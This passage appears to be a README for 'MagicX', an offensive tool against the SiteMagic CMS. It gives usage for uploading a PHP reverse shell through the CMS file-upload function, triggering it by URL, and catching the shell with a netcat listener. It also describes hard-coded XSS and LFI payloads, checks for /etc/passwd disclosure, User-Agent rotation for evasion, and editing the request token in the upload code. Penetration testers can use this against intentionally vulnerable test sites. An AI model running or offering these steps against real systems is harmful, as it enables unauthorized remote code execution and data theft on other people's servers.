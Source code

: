 ./Magicx -u "http://vulnweb.com" -p
# Prompts user to place php-reverse-shell.php
# [+] Full Target Url: http://vulnweb.com/sitemagic/index.php?SMExt=SMFiles&...{upload params}
# [+] HTTP response code: 200
Then point your web browser or curl to:

http://vulnweb.com/sitemagic/files/images/php-reverse-shell.php
On your Kali:

nc -lvnp 1234
# You receive the shell once the PHP is invoked.
Logging (MagicX.log)
Every action is appended to MagicX.log with a UTC timestamp:


[2023-07-15 14:22:07] [+] Welcome to the mgicX tool ...
[2023-07-15 14:22:07] [!] Possible XSS payload detected
[2023-07-15 14:22:09] [!] Possible LFI success detected
[2023-07-15 14:22:12] [+] Request sent successfully! (File Upload)
...
Success checks for XSS and LFI write a “Possible … success detected” line when the payload is reflected or /etc/passwd appears.

File Upload logs the HTTP response code (e.g., 200 OK).

Customization
Add/Remove Payloads

XSS payloads are hard-coded in the payloads[] array inside exploitXss().

LFI patterns are in payloads[] inside exploitLfi().

Feel free to append new vectors (e.g., additional encodings, Unicode bypasses).

User-Agent List

The sendAgents() function rotates through a large built-in list. You may replace or extend entries directly in the agents[] array.

Token & Endpoint Changes

If your SiteMagic installation uses a different SMRequestToken or upload path, modify the fileUploid() section accordingly:


// Example change: SMRequestToken from server’s HTML
curl_mime_data(field, "<new_token_here>", CURL_ZERO_TERMINATED);
Important Notes & Limitations
Authenticated Upload Required

The File-Upload exploit assumes you already have a valid authenticated session (cookie) for SiteMagic.
